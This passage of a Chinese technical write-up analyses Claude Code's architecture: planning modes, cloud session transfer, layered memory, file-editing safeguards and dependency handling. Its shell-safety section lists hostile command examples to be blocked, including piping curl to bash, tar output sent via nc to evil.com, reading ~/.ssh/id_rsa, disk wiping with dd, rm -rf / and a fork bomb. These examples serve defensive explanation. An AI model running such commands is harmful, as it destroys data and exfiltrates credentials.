### 5.1 Plan Mode V2：强制只看不写的架构设计沙箱
通过 `EnterPlanModeTool` 与 `ExitPlanModeTool`，系统可以在执行大规模重构或复杂特性前，将 Agent 强制锁定在规划模式。处于该模式时，任何写入工具均被硬拦截。模型必须在纯文本设计中反复与用户对齐，待用户确认批准后方能解锁写入工具。

### 5.2 Ultraplan：基于 Opus 4.6 的 30 分钟云端长考推演
在 长考推演引擎 `UltraplanEngine` 中：
当用户发起 `/ultraplan` 时，系统将任务**异步卸载至云端 Claude Cloud Runtime (CCR)**。云端环境自动匹配旗舰级模型 **Opus 4.6**，并配置最长达 30 分钟的后台轮询窗口（`ULTRAPLAN_TIMEOUT_MS = 30 * 60 * 1000`）。云端集群并行启动多个智能体对代码库进行深度排查、架构选型与风险推演。

### 5.3 规划状态轮询与双向同步机制
本地 CLI 启动分离轮询（`startDetachedPoll`），监听任务阶段变更（`running` $\rightarrow$ `needs_input` $\rightarrow$ `approved`）。用户在本地或网页端批准计划后，规划结果连同关键决策元数据被完整瞬移回本地工作区继续落地。

---

## 6. 云端运行时（CCR）、会话瞬移与环境安全（Teleportation & Security Proxy）

### 6.1 Git Bundle 跨机瞬移：免推送同步未提交工作区
在 Git Bundle 瞬移打包器 `GitBundleTeleporter` 中，官方展现了一种绝妙的免推送（No-Push）工作区瞬移算法：
1. **捕获工作区脏状态**：执行 `git stash create` 生成包含当前未暂存与暂存修改的悬挂提交对象；
2. **打通引用**：执行 `git update-ref refs/seed/stash <commit_sha>` 将其标记为可达对象；
3. **打包 Git 增量包**：调用 `git bundle create --all` 将本地所有分支历史与脏工作树打包为一个 `.bundle` 二进制；
4. **上传至云端**：上传至 Anthropic Files API，云端 CCR 容器拉取该 Bundle 执行解包还原；
5. **现场清理**：删除本地临时 `refs/seed/stash` 引用，用户本地工作区不受任何污染。
* **开发者无需开新分支、无需 git push，即可在数秒内将本地完整开发环境镜像瞬移至云端沙箱！**

### 6.2 容器内存反转储与网络防投毒（Upstream Proxy 与 `prctl` 防护）
在 安全反向代理 `UpstreamSecurityProxy` 中：
1. **防止内存转储**：调用 Linux `prctl(PR_SET_DUMPABLE, 0)`，严防子进程通过 `ptrace` 挂钩转储当前堆内存中的 API Token；
2. **凭据文件瞬间销毁**：读取凭证后立刻 `unlink` 销毁磁盘 Token 文件，使凭证完全留在内存中；
3. **MITM 代理过滤（NO_PROXY 隔离）**：启动中间人代理解析网络流量，配置完备的黑白名单。

### 6.3 SSH 零配置透明隧道（`claude ssh` 凭据反向穿透）
在 命令行根入口网关（CLI Entry Gateway）注册的 `claude ssh <host> [dir]` 中，自动通过 SSH 协议将 Claude Code 二进制推送到远端服务器，**通过反向 SSH 隧道将 API 鉴权打通回本地**，远端服务器上**无需配置任何 API Key**。

---

## 7. 知识库与多层级记忆体系：从静态规则、动态文档到仿生睡眠巩固

在 Claude Code 2.1.88 中，记忆与知识库子系统呈现出高度工程化、克制且分层的体系结构。系统通过静态规范（Rules）、动态活文档（Magic Docs）、结构化记忆分类学（4-Type Taxonomy）、元数据语义 RAG 检索（findRelevantMemories）以及离线仿生巩固（AutoDream），构建了一个既不产生向量存储冗余、又能精准命中上下文的混合知识库生态。

### 7.1 四层记忆继承与优先级加载算法（CLAUDE.md 与 Rules 规则作用域）
在 规则层叠加载器 `ClaudeMdLoader` 中：
1. **Managed Memory**：`/etc/claude-code/CLAUDE.md`（企业底线规范，防越权与强制合规）；
2. **User Memory**：`~/.claude/CLAUDE.md`（开发者跨项目通用偏好）；
3. **Project Memory**：项目根目录 `CLAUDE.md` 与 `.claude/rules/*.md`（团队项目级架构规范与编码准则）；
4. **Local Memory**：`CLAUDE.local.md`（开发者本地私有测试或暂存配置，git-ignored）。
* **逆序加载与优先级**：系统采用逆序合并，后加载的上下文在 LLM 注意力机制中优先级最高，实现本地覆盖项目、项目覆盖全局的灵活继承链。
* **规则路径动态作用域（Path Scoped Rules）**：`.claude/rules/*.md` 支持在 frontmatter 中声明 `paths: ["web/**/*.tsx", "components/**/*.vue"]`。仅当 Agent 即将触碰匹配路径的文件时，才动态激活并向上下文注入对应规则，避免全量静态规则撑爆 Prompt。
* **深度引用图解析**：原生支持 `@include relative/path.md` 引用语法，内部具备有向图拓扑排序与循环依赖检测器（Cycle Detector）。

### 7.2 长期记忆持久化与知识库分类体系（MEMORY.md 与 4 维分类学约束）
在 记忆分类体系定义 `MemoryTypes` 与 记忆存储目录管理 `MemdirManager` 中，团队沉淀了极具指导意义的**智能体记忆分类学（Memory Taxonomy）**：
1. **`user`（永属 private 私有）**：沉淀用户的角色职责、技术认知偏好与习惯（如“资深 Go 工程师初涉 React 前端，解释时多借用 Go 概念类比”）。严禁存储负面评价或无益评语。
2. **`feedback`（默认 private，团队共性实践设为 team）**：用户纠偏与最佳范式指导。强制记录“失败警示”与“验证成功”双向反馈（含 Context/Why 与 How to apply），严防 Agent 因过度纠偏陷入消极自闭（overly cautious）。
3. **`project`（团队共享）**：记录当前项目业务目标、近期推进死线、关键架构迁移计划等宏观背景。
4. **`reference`（团队共享）**：外部权威链接、Jira / Linear Issue 指针、官方 API 规范索引。
* **严苛的“反代码派生”知识库边界铁律**：Anthropic 在源码注释中做出极严苛的架构红线：**凡是能通过代码搜索、grep、git log 或直接读文件推导出的内容（如架构细节、函数实现、已有模式），严禁作为知识沉淀入记忆库！** 记忆库只允许存储不可派生的高熵元认知（Meta-Knowledge）。
* **双重硬边界物理截断**：`MEMORY.md` 入口文件强制施加 `MAX_ENTRYPOINT_LINES = 200` 与 `MAX_ENTRYPOINT_BYTES = 25_000` 双重硬预算约束。先按整行截断保全语义完整性，对极端超长单行触发字节级截断并告警，杜绝单点膨胀。

### 7.3 知识库智能检索：基于元数据驱动的 Semantic Metadata RAG（findRelevantMemories）
在传统 Agent 普遍依赖本地部署重型向量数据库（Chroma/Milvus）的大背景下，Claude Code 2.1.88 采用了一套独创的**轻量级元数据驱动大模型侧向检索（SideQuery RAG）架构**（记忆检索器 `FindRelevantMemories`）：
* **Memory Manifest 结构化轻量提取**：通过 记忆扫描引擎 `MemoryScanEngine` 毫秒级提取各个记忆 Markdown 文件的 YAML Frontmatter（文件名、类型、描述、`mtimeMs` 时间戳），构筑内存清单。
* **Sonnet 独立侧向决策（Top-5 Budget Selection）**：将当前用户 Prompt 与 Manifest 提交给 Sonnet 专有通道（`sideQuery`），由模型在 5 个槽位预算内挑选最强相关的记忆文件。
* **时序与工具状态感知过滤（Active-Tool Gotcha Preserving）**：
  * `alreadySurfaced` 集合机制过滤掉前置轮次已展现的文件，确保 5 个预算槽位全部分配给新鲜上下文；
  * 若模型近期正在密集调用某工具，算法自动过滤掉该工具的常规 API 用法文档（避免信息冗余），但**特异性保留该工具的“避坑指南与已知缺陷”（Warnings, Gotchas, Known Issues）**，实现超前精准预警；
  * `mtimeMs` 贯穿传递，主模型无需进行二次磁盘 `fs.stat` 即可判定知识新鲜度。

### 7.4 活文档系统：Magic Docs 常驻自愈型代码知识库
在 常驻自愈活文档引擎 `MagicDocsEngine` 中，设计了一套极具前瞻性的**自我维持活文档机制（Self-Maintaining Living Docs）**：
* **活文档标识协议**：自动扫描并感知第一行包含 `# MAGIC DOC: [title]` 标记的 Markdown 文档，或通过 `.claude/magic-docs.json` 进行生命周期纳管。
* **后处理采样钩子（Post-Sampling Hooks）**：通过 `registerPostSamplingHook` 挂载执行总线。当主会话完成一轮多步骤代码改动、架构调整或排错决策后被动唤起。
* **后台只读/修改 Forked Subagent 异步自愈**：系统在后台静默派生轻量子智能体（基于 子智能体派生运行时 `RunAgentRunner` 并复用 文件状态缓存管理器 `FileStateCache`），结合刚完成的代码差异与对话洞见，自动调用 `FileEditTool` **原地对活文档进行自适应补丁修订**。彻底终结了开源工程中“代码演进飞快，知识库文档长年陈旧废弃”的顽疾。

* **活文档数据模型与生命周期协议（TypeScript Schema）**：
  ```typescript
  export interface MagicDocConfig {
    docPath: string;           // 活文档相对路径 (如 docs/architecture.md)
    title: string;             // 活文档主标题
    watchPatterns: string[];   // 关联监控的代码模式 (如 ["web/**/*.tsx", "api/**/*.ts"])
    autoHealMode: 'patch' | 'rewrite'; // 自愈模式 (局部增量补丁 vs 全量结构化重构)
    lastHealedCommit: string;  // 最近一次对齐自愈的 Git Commit Hash
    mtimeMs: number;           // 物理修改时间戳
  }
  ```


### 7.5 外部代码索引感知系统（Code Indexing Tool Detector）
在 代码索引感知器 `CodeIndexingDetector` 中：
* **全生态 20+ 款代码知识库感知矩阵**：内置探测对 Sourcegraph (`src`)、Cody、Aider、Cursor、Tabby、Codeium、Tabnine、Augment、Windsurf、Qodo、Bloop、Seagoat 以及 MCP 代码索引（`claude-context`, `code-index-mcp`, `openctx`）的自动检测能力。
* **协同策略自适应适配**：一旦探查到宿主已安装代码索引引擎或 MCP 检索服务，Claude Code 会通过上下文注入与工具路由动态调整其搜索偏好，借力外部高效索引避免低效的全局磁盘遍历。

### 7.6 AutoDream 机制：基于空闲锁与 Fork Agent 的仿生记忆巩固
在 睡眠记忆巩固引擎 `AutoDreamEngine` 中：
* **仿生睡眠整理周期**：模拟哺乳动物在慢波睡眠期间对海马体短期记忆向大脑皮层长期记忆转移的生理机制。当系统空闲、时间跨度与累积交互轮次达到设定阈值时被唤醒。
* **分布式文件排他锁保护**：通过文件锁确保同一机器上不会有多实例并发写冲突；
* **无副作用只读 Fork Agent 巩固**：启动独立的无副作用只读子 Agent（Forked Agent），运行 `/dream` 聚类提炼会话历史，识别并剔除陈旧矛盾经验，升华凝练核心技术断言，最终原子化重写沉淀至 `MEMORY.md`。

### 7.7 用户个人档案与客户端绑定体系：设备指纹、OAuth 组织凭据、本地私有隔离（CLAUDE.local.md）与安全存储

在处理多租户协作、本地开发者身份识别与私有偏好隔离方面，Claude Code 构建了兼顾安全与易用性的闭环绑定体系：
* **物理设备指纹与持久化 Device ID（全局配置管理器 `GlobalConfigManager`）**：
  * 在 `getOrCreateUserID()` 中，客户端首次运行时生成 32 字节高熵随机十六进制串 `randomBytes(32).toString('hex')` 并持久化记录于 `~/.claude.json`；
  * 配合 核心用户数据模型 `CoreUserData` 的 `CoreUserData`，将 `deviceId`、`sessionId`、`appVersion` 与操作系统环境深度绑定，作为云端频控（Rate Limits）与功能灰度开关（GrowthBook）的核心基准。
* **OAuth 1P 账户与企业组织凭据穿透（认证与鉴权管理器 `AuthManager`）**：
  * 支持 Anthropic 官方 OAuth 授权登录，安全捕获并挂载 `accountUuid` 与 `organizationUuid`；
  * **操作系统级安全钥匙串（Secure Storage）**：在 macOS 上优先调用原生 Keychain 存储（系统钥匙串存储模块 `MacOsKeychainStorage`），在 Linux/Windows 上回退至受权限保护的本地安全存储（`chmod 0600`），杜绝明文 Token 泄漏。
* **Git Email 零交互开发者身份推导（Git 邮箱推导方法 `getGitEmail`）**：
  * 在终端未显式登录账号的轻量会话中，客户端在冷启动阶段自动异步执行 `git config --get user.email`，提取本地开发者的真实 Git 邮箱作为临时标识，实现零门槛的开发者个性化上下文映射。
* **工程私有档案隔离机制（`CLAUDE.local.md`）**：
  * 在 工程初始化向导 `ProjectInitWizard` 中明确划分两类档案：`CLAUDE.md` 为团队共享共识并随 Git 提交，而 `CLAUDE.local.md` **强制加入 `.gitignore`**。它专门存放开发者私人的测试账号密码、本地专属端口号、专属沙箱 URL 或个人调试偏好，既保证了个性化记忆的持续生效，又彻底阻断了个人私有凭证意外推送到公共代码库的风险。
* **企业管理员策略强覆盖（`managed-settings.json`）**：
  * 在 全局配置管理器 `GlobalConfigManager` 中支持从操作系统受限路径（如 `/Library/Application Support/ClaudeCode/` 或企业组策略目录）加载最高优先级的托管策略。企业管理员可强制绑定企业统一的 Organization ID，禁用个人 API Key，并封禁非授权工具，实现企业资产合规管控。

---

## 8. 工具与深度防御安全体系：兼顾执行力与确定性

### 8.1 工具抽象契约与流式执行器
在 统一工具抽象契约 `ToolDefinitionContract` 与 流式工具执行调度器 `StreamingToolExecutor` 中，通过 Zod 定义输入规范，并在模型流式吐出 JSON 块的同时开展早期校验。

### 8.2 BashTool：23 维度 AST 语法树审计与沙箱拦截

在编码智能体中，允许模型执行 Shell 是核心生产力的源泉，但同时也是最大的安全隐患。应用层简单的字符串正则匹配（如 `command.includes('rm -rf')`）在面对复杂的 Bash 语法变形时不堪一击（如反引号拼接、变量赋值混淆、重定向伪装等）。系统基于 Tree-Sitter 实现了编译器级的 AST 语法树遍历审计：

* **23 维语法级安全威胁模式分类表**：
  1. **命令替换逃逸（Command Substitution）**：检测反引号 `` `cmd` `` 与 `$()`，拦截在看似无害命令中内嵌执行的恶意子进程；
  2. **进程替换与命名管道（Process Substitution & Named Pipes）**：检测 `<(cmd)`、`>(cmd)`，防止绕过只读检查向后台注入写进程；
  3. **管道混淆注入（Piped Execution）**：拦截 `curl ... | bash`、`wget ... | sh` 等典型动态投毒攻击；
  4. **环境变量覆写攻击（Environment Variable Manipulation）**：识别 `PATH=/tmp:$PATH`、`LD_PRELOAD=...`、`IFS=...` 等劫持系统内置指令的危险前缀；
  5. **Shell 内置越权机制（Shell Builtins Abuse）**：针对 Zsh 的 `=cmd` 路径扩展、`zmodload`（动态加载内核/系统模块）、`zpty`（伪终端劫持）；
  6. **后台隐藏守护进程（Detached Processes）**：严密检查 `nohup cmd &`、`disown`，防止模型在宿主机留下无法追踪的后门常驻进程；
  7. **破坏性文件系统操作（Destructive FS Operations）**：识别针对根目录、系统保护区（`/etc`、`/boot`、`/usr`）以及跨卷的无限制递归删除。
* **AST 遍历执行流水线**：
  ```
  原始 Shell 字符串 ──> Tree-Sitter 解析为 AST 语法树 ──> 提取根命令与全部叶子节点
                                                             │
        ┌────────────────────────────────────────────────────┴────────────────────────────────┐
        ▼                                                    ▼                                ▼
  [只读安全命令判定]                                    [危险语法模式匹配]                   [路径沙箱越界检查]
  (ls, git status, grep, cat...)                    (23 类威胁模式扫描)                (检查所有重定向路径是否在 CWD 内)
        │                                                    │                                │
        └──────────────────────────────┬─────────────────────┴────────────────────────────────┘
                                       ▼
                     [最终判定: 放行 / 阻断 / 触发微隔离沙箱]
  ```

* **23 维 AST 语法级安全威胁模式对照与防御动作全览表**：

| 编号 | 威胁分类 | Tree-sitter AST 核心节点 | 危险命令特征示例 | 防御拦截与隔离动作 |
| :--- | :--- | :--- | :--- | :--- |
| **T01** | 反引号命令替换 | `command_substitution` | `` echo `rm -rf /` `` | **阻断**：禁止未经审计的子进程嵌套执行 |
| **T02** | `$()` 命令替换 | `command_substitution` | `cat $(curl -s evil.com/p)` | **阻断**：防范外部不可信脚本内联注入 |
| **T03** | 进程输入替换 | `process_substitution` | `diff <(cat /etc/passwd) <(cat /tmp/p)` | **微隔离**：重定向到受限临时管道，校验子命令 |
| **T04** | 进程输出替换 | `process_substitution` | `tar -cf >(nc evil.com 1337) ./src` | **阻断**：彻底禁止输出流指向未授权网络套接字 |
| **T05** | 管道动态代码注入 | `pipeline` + `command` | `curl -sL https://... \| bash` | **阻断**：强制要求先下载落盘，经静态扫描后执行 |
| **T06** | 危险环境变量前缀 | `variable_assignment` | `LD_PRELOAD=/tmp/lib.so ./app` | **剥离**：强制剔除高危动态链接与环境变量注入 |
| **T07** | PATH 变量劫持 | `variable_assignment` | `PATH=/tmp/bin:$PATH git commit` | **阻断**：严禁将不可信目录置于系统标准 PATH 之前 |
| **T08** | IFS 字段分隔符篡改 | `variable_assignment` | `IFS=:; cmd` | **阻断**：防范利用参数展开漏洞篡改 Shell 命令边界 |
| **T09** | 外部文件后台重定向 | `redirect` | `cmd > /etc/crontab` | **路径检查**：重定向目标路径必须在工作区沙箱以内 |
| **T10** | 跨卷根目录递归删除 | `command` + `argument` | `rm -rf /` 或 `rm -rf /*` | **硬熔断**：绝对禁止根目录与系统保护目录的递归删除 |
| **T11** | 跨父路径穿透逃逸 | `argument` | `rm -rf ../../../etc` | **阻断**：解析后物理真实路径不得超出 CWD 根目录 |
| **T12** | Zsh 动态模块加载 | `command` (`zmodload`) | `zmodload zsh/net/tcp` | **阻断**：禁止低级操作系统内核与网络模块动态挂载 |
| **T13** | 伪终端注入劫持 | `command` (`zpty`) | `zpty -b evil /bin/sh` | **阻断**：严防创建失控的非受管伪终端通道 |
| **T14** | 等号路径解析混淆 | `word` (`=cmd`) | `echo =cat` (Zsh 语法) | **语法规范化**：解析为标准绝对路径再进行权限判定 |
| **T15** | 常驻后台守护进程 | `subshell` + `&` / `nohup`| `nohup ./agent_server &` | **弹窗询问**：必须显式向人类说明后台常驻意图并审批 |
| **T16** | 孤儿进程脱离管控 | `command` (`disown`) | `python server.py & disown` | **阻断**：禁止 Agent 主动脱离宿主进程生命周期树 |
| **T17** | Fork Bomb 拒绝服务 | `function_definition` | `:(){ :\|:& };:` | **AST 模式阻断**：识别递归自生进程拓扑并直接拦截 |
| **T18** | 特权命令无密提权 | `command` (`sudo` / `doas`) | `sudo chmod 777 /etc` | **硬拦截**：严禁以 sudo 方式隐蔽执行任何未授权命令 |
| **T19** | 块设备底层直写 | `redirect` (`/dev/sd*`) | `dd if=/dev/zero of=/dev/sda` | **阻断**：物理设备直写属于致命威胁，直接熔断 |
| **T20** | 本机网络嗅探扫描 | `command` (`nmap`/`tcpdump`) | `nmap -sP 192.168.1.0/24` | **阻断**：非工程构建所需的网络扫描与抓包一律封禁 |
| **T21** | 凭据目录定向窃取 | `command` + `argument` | `cat ~/.ssh/id_rsa` | **阻断**：敏感认证目录（.ssh, .aws, .gnupg）禁止非授权读取 |
| **T22** | 动态代码求值逃逸 | `command` (`eval`) | `eval "$MALICIOUS_VAR"` | **二次递归展开**：对 eval 参数进行二次 AST 静态遍历 |
| **T23** | 混淆 Base64 解码执行 | `pipeline` (`base64 -d`) | `echo aWQ= \| base64 -d \| sh` | **阻断**：拦截通过编解码方式规避静态特征检测的指令 |


### 8.3 FileEditTool：精确文本替换与 "先读后写" 状态机约束

在真实工程落地中，让大模型输出整个新文件会浪费天量 Token 并极易漏掉原有业务逻辑；而让模型输出 Unified Diff / Patch 则经常因为模型数不对代码行号（Line Count）而导致 `patch` 工具无法应用。系统设计的 `FileEditTool` 采用了**基于唯一子串锚定的确定性状态机**：

* **接口数据契约（TypeScript Schema）**：
  ```typescript
  export interface FileEditInput {
    file_path: string;       // 目标文件的物理绝对路径
    old_string: string;      // 准备被替换的原有代码块 (必须在文件中唯一存在)
    new_string: string;      // 准备写入的新代码块
    replace_all?: boolean;   // 是否批量替换所有匹配项 (默认 false)
  }
  ```
* **四步确定性状态机校验流（Four-Step Invariant Gate）**：
  1. **断言 1：强制“先读后写”验证（`assertFileRead`）**：
     * 校验当前会话上下文中，该 `file_path` 是否由 `FileReadTool` 成功读取并记录在 `sessionFileReads` 集合中；
     * 若未读取过，立即抛出错误：`"You must read the file before editing it."`，强迫模型先拉取最新代码真相。
  2. **断言 2：精确唯一子串全等匹配（Unique Match Assertion）**：
     * 在目标文件内容中搜索 `old_string` 的出现频次；
     * 若出现次数为 0：报错返回包含行号与上下文的代码片段，指明找不到该文本；
     * 若出现次数 > 1（且 `replace_all === false`）：报错拦截，要求模型在 `old_string` 中补充前后几行上下文代码，直到其在文件中成为全局唯一。
  3. **断言 3：外部并发修改竞争检测（`FILE_UNEXPECTEDLY_MODIFIED_ERROR`）**：
     * 重新比对磁盘上物理文件的当前修改时间 `mtimeMs` 与模型读取时的快照时间戳；
     * 若发现开发者在外部 IDE 中已手动改写保存，拒绝写入，杜绝破坏人类代码。
  4. **原子化写入与撤销追踪（Atomic Write & Undo Snapshot）**：
     * 将编辑前的文件快照推入撤销栈（`FileHistoryTracker`）；
     * 写入操作先落入临时文件，随后通过原生原子重命名（Atomic Rename）完成替换，确保物理写入零撕裂。

### 8.4 LSPTool：语言服务器协议与 IDE 级代码智能
在 代码语义检索工具 `LSPTool` 中，集成真实 LSP 协议，提供 `goToDefinition`、`findReferences`、`callHierarchy` 等编译器级语义检索。

### 8.5 EnterWorktreeTool：Git Worktree 物理隔离沙箱
在 Git 物理隔离沙箱工具 `EnterWorktreeTool` 中，基于 Git Worktree 在 `.claude/worktrees/` 建立物理级隔离工作区，试验性改动零污染当前工作树。

### 8.6 浏览器视界与 Web 运行时闭环：Claude in Chrome 原生宿主与 MCP 深度桥接
在 Chrome 扩展宿主模块 `ClaudeInChrome` 中：
* **纯 TypeScript Chrome Native Messaging Host（Chrome 原生宿主通信模块 `ChromeNativeHost`）**：
  * 官方将原先 Rust NAPI 编写的原生桥接全量重构为纯 TypeScript 实现；
  * 基于标准 Chrome 原生消息通信规范（4 字节 UInt32LE 长度前缀 + JSON 载荷），建立跨平台的 Unix Domain Socket / Windows 命名管道服务，免去原生 C++/Rust 编译依赖；
* **MCP 浏览器控制服务（浏览器 MCP 控制服务 `BrowserMcpServer`）**：
  * 通过 `@ant/claude-for-chrome-mcp` 将浏览器行为标准化为 MCP 工具，支持与 Chrome 插件双向握手；
  * 提供 `click`、`navigate`、`read_dom`、`screenshot`、`console_logs` 等工具，赋予终端 Agent 实时预览前端渲染、调试网络请求与捕捉报错的端到端能力；
* **终端结构化视图渲染（浏览器结构化渲染组件 `BrowserToolRenderer`）**：
  * 将复杂的网页 DOM 树与截屏摘要在终端中以结构化形式呈现，让开发者在字符界面中清晰感知网页执行状态。

### 8.7 技能自进化生态与微应用体系：SKILL.md 契约、动态发现与 Skillify 自动固化
在 技能目录加载器 `SkillsDirectoryLoader` 与 内置技能库 `BundledSkills` 中，构建了工业级 Agent 的技能扩展机制：
* **结构化 `SKILL.md` 规范契约**：
  * 每个技能为一个独立目录，根目录下包含 `SKILL.md` 与 YAML Frontmatter 元数据（`name`、`description`、`paths`、`hooks`、依赖的 MCP 服务器等）；
  * 声明两种运行模式：`inline`（在当前主会话上下文直接执行，适合人机协作微调）与 `forked`（作为独立隔离子 Agent 运行，拥有独立上下文，任务完成后返回结构化成果）；
* **内置 17 类高阶微技能矩阵（Bundled Skills）**：
  * **批量任务工作流（Batch Workflow）**：批量文件处理与流水线式任务调度；
  * **反应式循环执行引擎（Reactive Loop Runner）**：持续监听测试反馈与自适应收敛推进循环；
  * **分布式远程调度器（Remote Agent Scheduler）**：跨机器、跨节点分布式 Agent 远程调度与任务派发；
  * **代码异味重构器（Code Smell Simplifier）**：代码复杂度消解、函数拆分与架构坏味道重构；
  * **工程基线对齐套件（Baseline Verification Suite）**：对抗性验收自动化、回归测试与静态质量门禁；
* **自反思技能固化引擎（技能固化提炼引擎 `SkillifyEngine`）**：
  * 当 Agent 在会话中解决了一个棘手复杂任务后，可触发 `/skillify`；
  * 系统自动提取会话内存与用户纠偏指令，主动对用户发起交互式访谈（`AskUserQuestion`），确认步骤细节与验收标准，**原地自动生成合规的 `SKILL.md` 并沉淀至 `.claude/skills/`**，实现系统能力集的自治进化（Self-Evolving Skills）。

### 8.8 IDE 深度双向穿透协议：反向 JSON-RPC 桥接、实时选区同步与 Diff 联动
在 IDE 穿透与反向 RPC 模块 `IDEBridgeRpc`（1495 行）与 `IDE 进程双向桥接服务（`IDEBridgeService`）` 中：
* **多进程树溯源嗅探（Ancestor PID Lookup）**：
  * 自动向上追溯父进程链（PPID Chain），智能嗅探当前终端是否正运行在 VS Code、Cursor、Windsurf 或 JetBrains 内部的集成终端；
* **反向 JSON-RPC 本地通道（`callIdeRpc`）**：
  * 通过本地管道建立全双工通信，使独立 CLI 获得深度介入 IDE 的能力：
    1. **实时选区同步（Selection Context）**：自动抓取开发者在 IDE 中当前高亮的光标和代码行，无需复制粘贴；
    2. **文件光标精准跳转（Goto Line / Open Tab）**：Agent 在修改或分析代码时，命令宿主 IDE 自动展开对应文件并滚动定位至目标行；
    3. **双向 Diff 审查联动**：将 Agent 准备应用的文本变动直接投递至 IDE 的原生 Side-by-Side Diff 审查器中，实现无缝人机共驾。

### 8.9 本机文件读写与 I/O 深度优化工程（Blocked Devices、未修改存根、原子落盘与并发防冲突）

为在操作宿主物理文件系统时兼顾毫秒级执行效率与绝对零损坏安全性，系统在 文件按需读取工具 `FileReadTool` 与 文件原子写入工具 `FileWriteTool` 中实施了严密的工程优化：
* **危险设备文件零 I/O 路径硬拦截（`BLOCKED_DEVICE_PATHS`）**：
  * 针对 `/dev/zero`、`/dev/random`、`/dev/urandom`（无限输出流会导致内存溢出死锁）以及 `/dev/stdin`、`/dev/tty`、`/proc/.../fd/0`（等待输入导致进程永久卡死挂起），在系统调用前直接进行绝对路径模式比对拒绝，以零成本彻底消除 Agent 误读特殊伪文件引发的 Node.js 进程瘫痪。
* **文件未修改存根（`FILE_UNCHANGED_STUB`）与元数据缓存**：
  * 结合 文件状态缓存管理器 `FileStateCache` 与 文件属性统计缓存 `StatsCache`，如果模型在同一会话中多次请求读取某一文件，且磁盘上的物理 `mtime` 和内容哈希未发生改动，工具自动返回轻量存根 `FILE_UNCHANGED_STUB`，**避免向上下文重复回填数千 Token 的冗余代码**。
* **窗口切片分页与行号虚拟化（切片读取模块 `ReadFileInRange`）**：
  * 通过 `offset` 与 `limit` 提供流式分块读取能力；由 行号虚拟化方法 `addLineNumbers` 为每一行统一附加行号标记，保证大文件不撑爆上下文的同时，为后续精准定位提供确定性坐标。

* **本机文件 I/O 核心契约与流式状态机（TypeScript Schema）**：
  ```typescript
  export interface FileReadInput {
    file_path: string;        // 目标文件绝对物理路径
    offset?: number;          // 起始行号偏移量 (从 1 开始，支持大文件切片)
    limit?: number;           // 读取行数上限 (默认 2000 行，防爆上下文)
  }

  export interface FileReadOutput {
    content: string;          // 带有统一行号前缀的代码文本 (如 "   1 | import ...")
    total_lines: number;      // 目标文件实际总行数
    is_truncated: boolean;    // 是否触发了分页截断
    file_hash: string;        // 文件内容的 SHA-256 哈希 (用于后续乐观锁比对)
    mtimeMs: number;          // 磁盘真实修改时间戳 (毫秒)
    stub_status?: 'UNCHANGED' | 'FRESH'; // 是否命中未修改缓存存根
  }

  export interface FileWriteInput {
    file_path: string;        // 目标文件绝对路径
    content: string;          // 待落盘的完整文本
    expected_mtime?: number;  // 期望的磁盘修改时间戳 (检测并发幽灵覆盖)
  }
  ```
* **原子写入与崩溃恢复算法伪代码（Atomic Write Pipeline）**：
  ```typescript
  async function atomicWriteFile(filePath: string, content: string, expectedMtime?: number): Promise<void> {
    // 1. 并发修改冲突检测 (乐观锁)
    if (expectedMtime && fs.existsSync(filePath)) {
      const currentStat = await fs.promises.stat(filePath);
      if (Math.abs(currentStat.mtimeMs - expectedMtime) > 5) {
        throw new Error("FILE_UNEXPECTEDLY_MODIFIED_ERROR: File was modified by developer in external editor.");
      }
    }
    // 2. 捕获历史版本用于无损 Undo 回滚
    if (fs.existsSync(filePath)) {
      const prevContent = await fs.promises.readFile(filePath, "utf-8");
      fileHistoryTracker.pushSnapshot(filePath, prevContent);
    }
    // 3. 写入同目录下的瞬态临时文件 (同文件系统卷保障原子重命名)
    const tempPath = `${filePath}.${Date.now()}.${Math.random().toString(36).slice(2)}.tmp`;
    await fs.promises.writeFile(tempPath, content, { encoding: "utf-8", mode: 0o644 });
    // 4. 原子重命名覆盖 (POSIX 与 Windows 原生文件系统原子调用)
    await fs.promises.rename(tempPath, filePath);
    // 5. 广播 IDE 与 LSP 诊断更新
    notifyVscodeFileUpdated(filePath);
  }
  ```

* **外部并发修改竞争检测（`FILE_UNEXPECTEDLY_MODIFIED_ERROR`）**：
  * 在执行文件写入与重构前，工具会二次核验文件在磁盘上的物理修改时间戳。若检测到开发者已在外部 IDE 中手动改动并保存了该文件，写入立即硬熔断阻断，**杜绝幽灵覆盖（Ghost Overwrite）导致的人类成果丢失**。
* **原子落盘、换行符保全与权限继承（原子化文件系统操作层 `FsOperations`）**：
  * 写入采用“临时文件写入 $\rightarrow$ 原生原子重命名（Atomic Rename）覆盖”机制，防止断电或崩溃产生半截破损文件；自动探测并保留目标文件原有的换行风格（`\r\n` vs `\n`）与 POSIX 权限（如 `chmod +x` 可执行属性）。
* **全生命周期编辑撤销（文件版本追溯历史 `FileHistoryTracker`）与 IDE/LSP 联动**：
  * 每次写操作通过 `fileHistoryTrackEdit` 自动建立文件版本快照支持随时回滚；写入敲定后毫秒级广播 `notifyVscodeFileUpdated` 刷新宿主编辑器视图，并触发 `diagnosticTracker` 进行 LSP 语法诊断。

### 8.10 第三方代码依赖生态治理：生态自动探测、清单驱动安装、本地镜像源继承与供应链安全门禁

在软件工程中，新功能的编写不可避免地需要引入第三方开源库。Claude Code 构建了自适应探测、声明优先、镜像继承与安全防护的完整工程链路：
* **多语言包管理器全自动探针（环境与包管理器探测器 `EnvDetector` 与 工程初始化向导 `ProjectInitWizard`）**：
  * 扫描工作区特征自动推导最佳包管理器：
    * Node.js：依据 Lockfile 自动匹配 `pnpm add`（`pnpm-lock.yaml`）、`yarn add`（`yarn.lock`）、`bun add`（`bun.lockb`）或 `npm install`；
    * Python：依据锁文件特征优先选用现代工具 `uv add`、`poetry add`，其次回退至 `pipenv` 或 `pip install`；
    * Rust / Go：自动适配 `cargo add <crate>` 与 `go get <module>` / `go mod tidy`。
* **双模态依赖安装工作流**：
  * **清单声明优先模式（Manifest-First）**：系统提示词指导模型在引入依赖时，先通过 `FileEditTool` 规范编辑 `package.json`、`pyproject.toml` 或 `Cargo.toml`，精准声明语义化版本号（SemVer），再调用包管理器统一解析依赖树；
  * **测试驱动的错误自愈环（Test-Driven Auto-Install Loop）**：在运行单元测试或编译构建时，若控制台出现 `Cannot find module` 或 `ModuleNotFoundError`，Agent 自动提取缺失的包名，自主补齐依赖并重新执行验证，直到构建测试全绿。
* **100% 宿主镜像源配置继承与内网证书穿透**：
